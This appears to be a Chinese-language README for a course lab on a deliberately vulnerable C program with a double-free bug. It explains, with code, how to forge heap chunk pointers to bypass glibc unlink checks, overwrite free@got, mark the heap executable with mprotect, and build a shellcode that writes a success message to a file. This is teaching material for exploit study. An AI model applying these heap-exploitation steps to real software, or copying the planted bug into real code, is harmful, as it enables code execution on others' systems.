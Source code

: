 # 程序说明

---

## 1) vul
命名：double_free
漏洞：重复释放漏洞
攻击：代码注入攻击
Shellcode：写文件

本次代码注入攻击是借助 double free 实现的，通过用户编写程序时对申请的同一堆块 double free 的不慎操作获得一个可控指针，篡改 `free@got` 表内容，最终实现将对 free 函数的调用篡改为对shellcode的调用。
漏洞程序在课件 double free 部分中所给例子的基础上，稍加改动，漏洞程序主体如下：

```c
p0 = malloc(448);
p1 = malloc(512);
free(p0);
free(p1);
p2 = malloc(768);

memcpy(p2, buf, length);

free(p1); //double free
```

### 对于 double free 以及 unlink 实现细节的绕过：
本次试验攻击模式为单纯的输入数据攻击，随着操作系统安全性的增强，存在防止堆溢出的检测代码，如下：

```c
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))
   	malloc_printerr (check_action, "corrupted double-linked list", P, AV);
```
	
   	
其基本含义为：当前堆块的上一堆块中指向下一堆块的指针和当前堆块的下一堆块中指向上一堆块的指针，如果不是指向当前堆块的话，程序就会崩溃退出。
为绕过其检查，需要对注入数据进行特殊构造。已知堆块结构中存在两个指向前后空闲堆块的指针：

```c
struct malloc_chunk* fd;
struct malloc_chunk* bk;
```
	
在注入数据中将两个内存区域分别覆盖为：

```c
p0+16 = &p0-24; //本程序中为0x0000000000601080-24
p0+24 = &p0-16; //本程序中为0x0000000000601080-16
```

即 shellcode 中：

```
\x68\x10\x60\x00\x00\x00\x00\x00
\x70\x10\x60\x00\x00\x00\x00\x00
```

同时，为了绕过 unlink 时对于要释放的堆块大小的检查，在申请的堆块 `p0` , `p1` 的相关位置需覆盖如下数据：

```c
p0 = 0; //十六进制为0x0000000000000000
p0+8 = 448+1; //十六进制为0x00000000000001c1
p1-16 = 448; //十六进制为0x00000000000001c0
p1-8 = 320; //十六进制为0x0000000000000140
```

均可在 shellcode 注入数据的相关位置查看。

这样即可绕过 double free 以及 unlink 的所有相关检查，并可以获得一个可控指针。
之后寻找到 `free@got` 地址 `0x00000000000601018`，将其篡改为 shellcode 地址，本程序为 `p2+32`，那么在用户再次调用 `free(p2)` 时，即转到shellcode的调用，从而实现攻击。

### 对于操作系统相关保护的绕过：
首先，为了绕过 DEP，将 shellcode 所在页改为可执行，代码如下：

```c
mprotect((void *)((uint64_t)p2 & ~4095), 4096, PROT_WRITE|PROT_READ|PROT_EXEC);
```
	
其次，为了绕过ASLR，漏洞程序在构造的过程中对堆块指针进行全局声明，如下：

```c
	unsigned char *p0;
	unsigned char *p1;
	unsigned char *p2;
```

最后，本程序不牵扯栈保护的相关内容。

## 2) input
`input.txt` 此文件为 shellcode，其功能为向 `output`文件夹中的 `double_free_injection_output.txt` 文件中写入字符串 `Double free attack success!`

## 3) output
如果攻击成功会产生 `double_free_injection_output.txt` 文件，文件内容为 `Double free attack success!`
如果攻击失败，将不产生文件，或文件为空

## 4) check
命名：`double_free_injection_check`
获取 `output` 文件夹下 `double_free_injection_output.txt` 文件
如果此文件不存在，或为空，返回失败信息，否则将此文件中的信息返回

## 5) compile.sh  define.json
编译命令和配置信息已经写入 `compile.sh` 和 `define.json` 文件

## 6) shellcode 生成 
用汇编写一段满足攻击要求的程序shellcode.asm
按照如下命令生成shellcode
	nasm -f elf64 shellcode.asm -o shellcode.o
	ld -s -o shellcode shellcode.o

```bash
	for i in $(objdump -d shellcode |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo
```



